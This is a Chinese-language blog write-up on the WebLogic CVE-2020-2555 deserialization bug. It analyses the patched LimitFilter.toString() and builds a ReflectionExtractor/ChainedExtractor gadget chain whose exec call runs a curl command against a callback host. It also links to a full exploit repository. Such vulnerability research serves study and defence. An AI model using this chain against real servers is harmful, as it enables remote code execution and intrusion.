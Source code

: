 ```yaml
---
title: "Weblogic CVE-2020-2555 反序列化RCE EXP构造"
date: 2020-03-09T18:26:22+08:00
draft: false
tags:
- 反序列化
- Weblogic
- Java
- 代码审计
series:
- Weblogic
categories:
- 代码审计
---
```


Weblogic 简直是个无底洞.
<!--more-->

2020.03.06 早上4点，看到了清水川崎师傅推送了Weblogic CVE-2020-2555的通告，在推特上搜了一波，发现有详细的分析文章，遂有此文。

## 漏洞分析
个人研究，没钱买补丁，这里借用[Zero Day](https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server)的图。

![image](https://y4er.com/img/uploads/20200310118799.png)

补丁中将`LimitFilter`类的`toString()`方法中的`extract()`方法调用全部移除，而我们需要知道在[CommonsCollections5](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)中可以利用``BadAttributeValueExpException``来调用任意类的`toString()`方法。

接着来看下没打补丁之前`LimitFilter`类的`toString()`方法。
```java
public String `toString()` {
    StringBuilder sb = new StringBuilder("LimitFilter: (");
    sb.append(this.m_filter).append(" [pageSize=").append(this.m_cPageSize).append(", pageNum=").append(this.m_nPage);
    if (this.m_comparator instanceof ValueExtractor) {
        ValueExtractor extractor = (ValueExtractor)this.m_comparator;
        sb.append(", top=").append(extractor.extract(this.m_oAnchorTop)).append(", bottom=").append(extractor.extract(this.m_oAnchorBottom));
    } else if (this.m_comparator != null) {
        sb.append(", comparator=").append(this.m_comparator);
    }

    sb.append("])");
    return sb.`toString()`;
}
```
`toString()`中会将`this.m_oAnchorTop`和`this.m_oAnchorBottom`作为参数传入`ValueExtractor.extract()`，补丁移除了`extractor.extract()`操作，跟进`extract()`看下，发现`extract()`只是一个抽象方法，并没有实现，那说明`extract()`在`ValueExtractor`的子类中可以利用。因为是反序列化，所以我们只需要在`ValueExtractor`子类中找到实现了`Serializable`或者`ExternalizableLite`反序列化接口并且有`extract()`的方法。最终在`com.tangosol.util.extractor.ReflectionExtractor#extract()`找到了反射任意方法调用。
```java
public E extract(T oTarget) {
    if (oTarget == null) {
        return null;
    } else {
        Class clz = oTarget.getClass();

        try {
            Method method = this.m_methodPrev;
            if (method == null || method.getDeclaringClass() != clz) {
                this.m_methodPrev = method = ClassHelper.findMethod(clz, this.getMethodName(), ClassHelper.getClassArray(this.m_aoParam), false);
            }

            return method.invoke(oTarget, this.m_aoParam);
        } catch (NullPointerException var4) {
            throw new RuntimeException(this.suggestExtractFailureCause(clz));
        } catch (Exception var5) {
            throw ensureRuntimeException(var5, clz.getName() + this + '(' + oTarget + ')');
        }
    }
}
```
到现在为止我们可以传入一个`Runtime.getRuntime()`的`oTarget`，将`this.m_methodPrev`赋值为exec，然后`this.m_aoParam`就是我们的命令参数，就可以RCE了。而对于反序列化而言，我们需要继续构建对象，让他自己执行`Runtime.getRuntime()`，这里很像cc链中的`InvokerTransformer.transform()`，那有没有像cc链中的`ChainedTransformer`类呢。遂找到了`com.tangosol.util.extractor.ChainedExtractor#extract()`

```java
@JsonbCreator
public ChainedExtractor(@JsonbProperty("extractors") ValueExtractor[] aExtractor) {
    super(aExtractor);
    this.m_nTarget = this.computeTarget();
}
public E extract(Object oTarget) {
    ValueExtractor[] aExtractor = this.getExtractors();
    int i = 0;

    for(int c = aExtractor.length; i < c && oTarget != null; ++i) {
        oTarget = aExtractor[i].extract(oTarget);
    }

    return oTarget;
}
```
和cc5的构造很像，我们一步一步构造下
```java
// Runtime.class.getRuntime()
ReflectionExtractor extractor1 = new ReflectionExtractor(
    "getMethod",
    new Object[]{"getRuntime", new Class[0]}

);

// get invoke() to execute exec()
ReflectionExtractor extractor2 = new ReflectionExtractor(
    "invoke",
    new Object[]{null, new Object[0]}

);

// invoke("exec","calc")
ReflectionExtractor extractor3 = new ReflectionExtractor(
    "exec",
    new Object[]{new String[]{"/bin/bash", "-c", "curl http://172.16.1.1/success"}}
);
```
首先先构造三个`ReflectionExtractor`对象来调用反射拿到我们想要的，然后把他放到`ReflectionExtractor`数组中，将数组通过构造函数赋值给`ChainedExtractor`。
```java
ReflectionExtractor[] extractors = {
    extractor1,
    extractor2,
    extractor3,
};

ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
```
那到目前为止，只要反序列化执行了`chainedExtractor.extract()`就可以造成rce。而前文所说，`toString()`中是执行了`extract()`的，所以我们将`chainedExtractor`通过反射赋值给`limitFilter`对象。然后通过`BadAttributeValueExpException`触发`limitFilter`对象的`toString()`，进而触发`extract()`一步一步调用`method.invoke()`，继而通过反射拿到`Runtime.getRuntime().exec("")`，达成RCE。

## 坑
1. `coherence.jar`要使用和目标版本一致的，不然会有`serialVersionUID`不一致的问题。
2. `BadAttributeValueExpException`对jdk的版本有要求。具体看[这里](https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR70)

## 漏洞利用

https://github.com/Y4er/CVE-2020-2555

![](https://y4er.com/img/uploads/20200310119395.gif)

## 参考
1. https://www.zerodayinitiative.com/blog/2020/3/5/cve-2020-2555-rce-through-a-deserialization-bug-in-oracles-weblogic-server
2. https://github.com/JetBrains/jdk8u_jdk/commit/af2361ee2878302012214299036b3a8b4ed36974#diff-f89b1641c408b60efe29ee513b3d22ffR76
3. https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**